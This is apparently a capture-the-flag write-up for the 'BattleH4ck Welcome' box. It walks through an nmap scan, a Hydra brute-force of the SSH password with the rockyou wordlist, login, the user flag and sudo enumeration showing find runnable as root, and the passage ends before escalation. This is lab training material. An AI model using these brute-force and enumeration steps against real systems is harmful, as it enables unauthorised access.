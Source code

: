 ```yaml
---
title: "[BattleH4ck] Easy - Welcome"
description: Welcome box solve
slug: battlehack_welcome
date: 2023-10-03 00:00:00+0000
image: images/welcome-cover.png
translationKey: battlehack_welcome
categories:
    - BattleH4ck
tags:
    - Linux
    - Pentest
weight: 1       
---
```

## Given data

By reading the description of the mission, we can see that we need to connect to the machine by knowing that:

- The username *should* be **seela**
- The password *used* is **weak**
- IP address: 10.42.20.52

## Foothold

### Port scan

First, we need to know what services are open to us on the machine.
To do this, we will use *nmap*:

```bash
└─$ nmap 10.42.20.52 -T4 -sC -sV
```

```bash
Nmap scan report for 10.42.20.52
Host is up (0.064s latency).
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 fe:c2:f2:9c:8f:17:5d:66:9a:90:c9:e9:b3:1a:0a:bc (RSA)
|   256 ea:73:61:43:b8:7d:db:88:2b:d7:a8:16:39:49:b6:40 (ECDSA)
|_  256 be:5e:54:f8:6d:3c:de:7d:53:17:99:08:65:0c:34:a0 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Nmap done: 1 IP address (1 host up) scanned in 3.00 seconds
```

We can see that there is one open port which is SSH.
By remembering the given data, we have:

- a username which *should* be **seela**
- a password which is *used* is **weak**

Before we continue, let's look at the used verbs.
There are "should" and "used".
When we look at the sentence about the password. There is the word "used" which is a bit confusing.
There are two possibilities of interpretation :

- **weak** is the password
- the password is weak, like to easy to guess

To know if the password is equal to **weak**, we should try to connect with it and with the username **seela**.
(The username is not that confusing, because it doesn't mean anything)

To connect to the machine by using our data, we can use **ssh**:

```bash
└─$ ssh seela@10.42.20.52
seela@10.42.20.54's password: weak
```

```bash
Permission denied, please try again.
```

By being denied, we can understand that our password is not equal to "weak" but is weak, like easy to guess.

### Bruteforce seela's password

To find the password used by seela, as Google says, we can use an attack called "bruteforce".
![image](https://user-images.githubusercontent.com/69204254/216843124-4edabd84-d823-4160-99b9-cc1e70e4f314.png)

In the first [link](`https://null-byte.wonderhowto.com/how-to/gain-ssh-access-servers-by-brute-forcing-credentials-0194263/), we can find that there is a tool called "Hydra" which can help us in this situation.
The website tells us that we need a username and a wordlist.
To know what wordlist we should use, we can try to ask google which one can be good to try.
![image](https://user-images.githubusercontent.com/69204254/216844703-e851e499-3d64-436c-aa13-1046feaed78f.png)

By looking at the first link, we can read that the wordlist rockyou can be good to try.
If you own a Kali Linux, rockyou can be found in /usr/share/wordlist/rockyou.txt.gz (you can also type the command: wordlists).

Right now, rockyou in gziped, to extract it, we can use **gunzip**, by doing:

```bash
└─$ sudo gunzip /usr/share/wordlists/rockyou.txt.gz
```

Now we have a wordlist, let's run Hydra !

```bash
└─$ hydra -l seela -P /usr/share/wordlists/rockyou.txt ssh://10.42.20.52 -t 4
```

```bash
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.42.20.54:22/
[22][ssh] host: 10.42.20.54   login: seela   password: rockyou
1 of 1 target successfully completed, 1 valid password found
```

We got our password, which **rockyou** !

Let's try to connect to the machine the same way we used to do:

```bash
└─$ ssh seela@10.42.20.52
seela@10.42.20.54's password: rockyou
```

```bash
Linux welcome-fb9c8a3a-e8e7-4841-801e-2855d61875c0-5b4df8d557-kpmdw 5.15.0-39-generic #42-Ubuntu SMP Thu Jun 9 23:42:32 UTC 2022 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
seela@welcome-fb9c8a3a-e8e7-4841-801e-2855d61875c0-5b4df8d557-kpmdw:~$
```

As we can see, we are now connected !
The first flag is in the directory in which we are:

```bash
seela@welcome-fb9c8a3a-e8e7-4841-801e-2855d61875c0-5b4df8d557-kpmdw:~$ ls -l
```

```bash
total 4
-rw-r--r-- 1 root root 17 Feb  5 20:23 user.txt
```

```bash
└─$ cat user.txt
```

```bash
FLAG{someCharacters}
```

## Privilege Escalation

```bash
seela@welcome-fb9c8a3a-e8e7-4841-801e-2855d61875c0-5b4df8d557-kpmdw:~$ sudo -l
We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for seela: rockyou
```

```txt
Matching Defaults entries for seela on welcome-fb9c8a3a-e8e7-4841-801e-2855d61875c0-5b4df8d557-kpmdw:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User seela may run the following commands on welcome-fb9c8a3a-e8e7-4841-801e-2855d61875c0-5b4df8d557-kpmdw:
    (root) /usr/bin/find *
```
